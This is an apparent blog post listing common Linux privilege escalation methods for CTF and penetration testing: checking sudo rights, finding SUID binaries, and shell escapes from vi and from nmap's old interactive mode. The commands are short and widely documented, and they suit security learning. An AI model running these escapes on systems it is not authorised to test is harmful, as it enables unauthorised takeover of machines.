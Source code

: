```yaml
---
title: Privilege Escalation
published: true
author:
  name: Aissa Ben yahya
date: 2022-02-22 19:25:00 +0100
categories: [Hacking, Tools]
tags: [Hacking, Privilege escalation]
---
```

In your journey playing CTF or doing real penetration testing you will fall in this situation where you need to escalate your privileges in order to procced further. Without escalating your privileges you will never be able to have a full control on the target machine. Down below you will find some usefull archive of known most common methods of privilege escalation.

### Check sudo privileges
```bash
sudo -l
```

### Find all SUID binaries
```bash
 find / -user root -perm -4000 -exec ls -ldb {} \; > /tmp/ckprm
 cat /tmp/ckprm
```

### **vi**
To spawn an interactive shell with vi, you need first to run vi and then execute the following:
```bash
:set shell=/bin/sh
:shell
``` 
To find more about vi privileges escalation visit the following website [GTFOBins](https://gtfobins.github.io/gtfobins/vi/#sudo)

### **Nmap**
The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.
```bash
nmap --interactive
nmap> !sh
```
For more infos about privilege escalation with nmap, go to [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/)
